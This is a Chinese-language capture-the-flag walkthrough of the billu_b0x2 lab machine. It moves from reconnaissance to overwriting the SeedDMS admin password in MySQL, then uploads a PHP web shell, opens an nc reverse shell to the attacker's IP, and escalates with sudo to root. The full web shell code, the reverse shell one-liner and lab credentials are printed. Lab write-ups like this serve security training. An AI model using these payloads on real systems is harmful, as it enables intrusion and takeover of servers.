

# 前言

靶机：`billu_b0x2`靶机，IP地址为`192.168.10.8`

攻击：`kali`，IP地址为`192.168.10.6`

靶机和攻击机都采用`VMware`虚拟机，都采用桥接网卡模式

> 文章涉及的靶机及工具，都可以自行访问官网或者项目地址进行获取，或者通过网盘链接下载  `https://pan.quark.cn/s/b29972b79f71`

# 主机发现

也就是相当于现实环境中去发现确定主机的`ip`地址，因为这里是靶机环境，所以跳过了从域名到`ip`地址的过程。

使用`arp-scan -l`或者`netdiscovery -r 192.168.10.1/24`

当然也可以使用`nmap`等工具进行

```shell
arp-scan -l
```


# 信息收集

## 使用nmap扫描目标端口等信息

首先扫描目标的`tcp`端口的开放情况

```shell
nmap -sT --min-rate=1000 192.168.10.8 -p- -oA nmap-tcp
```


再扫描`udp`端口的开放情况

```shell
nmap -sU --min-rate=1000 192.168.10.8 --top-ports 20 -oA nmap-udp
```


可以看到明确开放的`udp`端口没有，所以下面对`tcp`端口进行一个筛选

```shell
ports=`grep open nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','`
```


进一步对这些端口进行服务、系统等探测

```shell
nmap -sV -O -sC 192.168.10.8 -p $ports --min-rate=1000 -oA detail
```


再使用`nmap`的漏洞检测脚本对这些端口进行探测

```shell
nmap --script=vuln 192.168.10.8 -p $ports -oA vuln
```


## 网站信息探测

访问80端口网站，这里因为请求涉及国外的链接，所以建议代理一下


查看页面源代码并没有信息泄露，那么使用`whatweb`或浏览器插件`wappalyzer`进行配置识别

```shell
whatweb http://192.168.10.8 -v
```


使用`gobuster`等目录爆破工具进行测试

```shell
gobuster dir -u http://192.168.10.8 -w /usr/share/wordlists/dirb/big.txt -b 404,403 -x php,html,txt,md
```


访问这些目录基本上没什么效果。都是`403`无权访问，既然无权，那么之前查看页面源代码的时候，发现有文件指向，不知道能否访问


点击后，发现可以访问，那么就是哪个目录不能访问，但是有文件就可以，依次查看。在`/js/main.js`中发现了一个目录`/seeddms51x/seeddms-5.1.22/`


访问这个目录发现，是一个登录界面，并且可以看到所谓的`cms`，是`seeddms`，并且版本应该是`5.1.22`


使用`searchsploit`搜索对应版本的漏洞，发现并没有


那么对这个目录再深入进行目录爆破，能否发现更深的信息，先对外层目录测试

```shell
dirsearch -u http://192.168.10.8/seeddms51x -x 403,404 -e js,php,xml,txt,md -r
```


发现在`conf`下有一个文件`settings.xml`，那么访问，发现代码有点乱


# 数据库数据覆盖

那么查看页面源代码，在其中一项发现数据库连接账户和密码


之前数据库端口`3306`是开放的，那么直接访问，并以用户名`seeddms`和密码`seeddms`进行登录

```shell
mysql -h 192.168.10.8 -P 3306 -useeddms -pseeddms --skip-ssl
```


这时候去查看表，发现有`users`，那么直接查看这个`users`中的数据


目前只有网站登录，并且这个数据库的名称应该就是网站的后台数据库，密码为`Saket@#$1337`

访问之前的登录界面`/seeddms51x/seeddms-5.1.22/`

但是以这个无法登录，发现数据库中还有一个表`tblUsers`，再查看一下


两个用户，其中`guest`用户没有密码，`admin`用户的密码是经过加密的，可能是`md5`，不知道是否加盐，那么就破解一下，借助网站`cmd5.com`和`somd5.com`都没有破解出，那么尝试进行密码更新

首先借助`openssl`生成`md5`加密的字符

```shell
echo -n '123456' | openssl md5
```


然后在数据库中执行命令替换密码

```mysql
update tblUsers set pwd='e10adc3949ba59abbe56e057f20f883e' where id=1;
```


这时候再去网站登录界面，以用户名`admin`和密码`123456`成功登录目标


# 文件上传漏洞

在测试几个界面后，发现一个添加文档的界面，可以上传文件，之前确定网站为`php`语言，那么可能存在文件上传的漏洞，进行测试


点击下面的添加文档后，虽然跳转显示为`500`，但是经过查看，发现文件上传成功了，不过就是不知道文件路径


上传的时候提示的路径`http://192.168.10.8/seeddms51x/seeddms-5.1.22/op/op.AddDocument.php`是表单处理的，但是访问的时候，无法访问，还是不知道把数据搞哪去了



不过查看管理员工具中的设置，发现上传路径在`data`下


然后在高级设置中，发现了所谓的“内容偏移目录”，这可能与上传目录有关，尝试拼接


可以看到这里是无权，不是没有该文件或目录，后面的信息，不知道， 那么尝试爆破吧

```shell
dirsearch -u http://192.168.10.8/seeddms51x/data/1048576 -x 403,404 -e php -r
```


为什么三个，因为我后面又上传了三个文件，这里可以发现，每上传一个`php`文件，其目录会递增，不过文件名是一样。现在上传一个可以命令执行的`php`代码，或者可以直接反弹`shell`的代码。

访问其中一个，测试发现`php`代码解析了


我这里就上传文件执行的代码为示例

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

这时候再上传这个文件，访问的时候，直接访问`/data/1048576/7/1.php`，发现成功


这时候就是文件上传到命令执行了


执行反弹`shell`的命令，当然需要先在`kali`开启监听

```shell
nc -lvnp 9999
```

这时候再构造反弹`shell`的命令，进行测试

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.10.6 9999 >/tmp/f
```


查看靶机内安装`python`没有，安装的话，什么版本

```shell
compgen -c | grep python
```

然后使用`python`加一层`shell`

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 提权

查看当前系统内的用户，发现有`saket`用户，好眼熟，前面在一个数据库中看到过这个用户，密码是`Saket@#$1337`


使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```


发现有`su`和`sudo`，那么尝试切换用户`saket`，密码就是这个`Saket@#$1337`


使用`sudo -l`可以看到对于用户`saket`，所有的命令都可以`sudo`执行

我直接一个`sudo -s`提权到`root`


# 总结

该靶机主要考察的就是信息收集

`js`文件中信息发现---->访问路径---->目录爆破---->发现配置文件---->找到数据库信息---->登录网站---->文件上传----->`php`命令执行---->反弹`shell`---->`sudo`提权